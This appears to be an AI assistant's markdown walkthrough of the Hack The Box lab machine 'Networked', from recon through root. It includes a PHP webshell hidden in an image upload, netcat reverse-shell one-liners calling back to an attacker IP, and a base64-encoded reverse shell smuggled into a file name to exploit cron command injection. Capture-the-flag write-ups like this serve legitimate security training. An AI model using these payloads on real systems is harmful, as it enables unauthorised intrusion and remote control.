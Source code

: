 Noted! Here’s your markdown-formatted walkthrough for **HTB: Networked**, organized by stage and packed with all the key commands and explanations 🔧📘

---

# 🧠 HTB: Networked Walkthrough

## 📦 Box Info
- **OS**: Linux (CentOS 7)
- **Difficulty**: Easy
- **Points**: 20
- **Creator**: guly
- **Vector**: Web Upload → Cron Command Injection → Network Script Abuse

---

## 🔍 Recon

### Nmap

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.146
nmap -p 80,22,443 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.146
```

- **Ports open**:
  - 22 → OpenSSH 7.4
  - 80 → Apache 2.4.6 (PHP 5.4.16)
  - 443 → Closed

---

## 🌐 Web Enumeration

### Gobuster / Dirsearch

```bash
dirsearch -u http://10.10.10.146
```

Found:
- `/upload.php`
- `/uploads/`
- `/backup/`
- `/index.php`
- `/backup/backup.tar` → Contains source code

---

## 🔬 Source Code Analysis (from `backup.tar`)

### Key Points from `upload.php` & `lib.php`:
- Only allows `.jpg`, `.png`, `.gif`, `.jpeg`
- Uses `check_file_type()` to validate MIME
- Uses `getnameUpload()` to extract extension after first `.`
- The server treats `something.php.png` as executable PHP due to Apache misconfig:

```apacheconf
AddHandler php5-script .php
```

---

## 💥 Exploitation: Webshell as Apache

### 🐚 Create Malicious File

Append PHP to an image:
```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```

### 🐱 Upload Webshell

Go to:
```
http://10.10.10.146/upload.php
```

### 🐚 Reverse Shell Payload

Start listener:
```bash
nc -lnvp 443
```

Trigger reverse shell:
```
http://10.10.10.146/uploads/10_10_14_5.php.png?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f
```

Shell as:
```bash
id
uid=48(apache) gid=48(apache)
```

---

## 🔼 PrivEsc: Apache → Guly

### 🧹 Exploit `check_attack.php` via Cron

File:
```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Exploit with a filename:
```bash
touch "/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b"
```

(Decoded: `nc -e /bin/bash 10.10.14.7 443`)

### 🧠 Wait for Cron

Listener:
```bash
nc -lnvp 443
```

Shell as:
```bash
id
uid=1000(guly) gid=1000(guly)
```

✅ Grab `user.txt`

---

## 🔼 PrivEsc: Guly → Root

### 🔧 Sudo Permission

```bash
sudo -l
```

Allowed:
```
/usr/local/sbin/changename.sh
```

Script writes a config and calls `ifup`:

```bash
echo "interface PROXY_METHOD:" ; read x
echo $x >> /etc/sysconfig/network-scripts/ifcfg-guly
```

If input includes a space, code after it is executed.

### 💥 Exploit

```bash
sudo /usr/local/sbin/changename.sh
```

Inputs:
```
NAME: test
PROXY_METHOD: a /bin/bash
BROWSER_ONLY: b
BOOTPROTO: c
```

Root shell:
```bash
id
uid=0(root) gid=0(root)
```

✅ Grab `root.txt`

---

## 🔎 Beyond Root: Apache Misconfig

```apacheconf
AddHandler php5-script .php
```

🛑 This causes `.php.*` to be interpreted as PHP.

---

Let me know if you want a downloadable version (PDF/Markdown) or want this organized for a Notion/Obsidian vault ⚡